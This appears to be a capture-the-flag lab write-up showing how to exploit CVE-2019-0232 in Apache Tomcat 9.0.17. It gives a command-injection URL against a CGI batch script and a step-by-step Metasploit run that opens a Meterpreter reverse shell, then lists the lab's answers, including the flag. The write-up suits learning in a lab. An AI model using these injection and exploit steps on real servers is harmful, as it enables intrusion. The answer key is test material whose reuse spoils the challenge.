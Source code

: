 # Day 12 Challenge
## Ready, Set, Elf

In this challnege we get to know about CVE's and how to use to our advantage using metasploit.

First we deploy the machine and do nmap scan to find the running services on the machine 

`nmap -Pn <IP Addr>`

We can see we have web service running on the machine.

Now lets open it and see what apache version the server is running. 

It looks like Apache 9.0.17 is running on the server

Lets search for if there is any known exploits for apache tomcat 9.0.17, looks like we have known exploit `CVE-2019-0232` which an individual can abuse the scripts stored in /cgi-bins/ or /cgi/ folders to his ownadvantage.

As in the challenge discription it says we have a script stored in cgi bin `elfwhacker.bat`

Lets try to open the link 

http://IP addr/cgi/elfwhacker.bat?&ls

Hmmm... we got the list of files in the directories now lets fire up metasploit and let it do the hardwork for us.

...
	
	> msfconsole
		/Lets search for CVE that we found earlier
	> search CVE-2019-0232
		/we got something nice lets use it 
	> Use 0
	> show OPTIONS
		/And set the RHOSTS and RPORT accordingly.
	> set RHOSTS <IP address of the machine>
	> set RPORT <Port on the webserver running on>
	> set TARGETURI /cgi/elfwhacker.bat
	> set LHOST <Your vpn ip>
		/Now lets run our exploit
	> run
		/Wait for few seconds untill the shell is pwnd.
	meterpreter> ***
		/Now lets type shell to get the windows shell
	meterpreter> shell
	shell> 
		/Now go ahead and find the flag1.txt

...

### Questions

...

	1. What is the version number of the web server?
		- Ans: 9.0.17

	2. What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)
		- Ans: CVE-2019-0232

	3. Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.
		- Ans: No answer needed!

	4. What are the contents of flag1.txt?
		- Ans: thm{whacking_all_the_elves}

	5. Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
		-Ans: No answer needed!

...

Thank You!!!
<3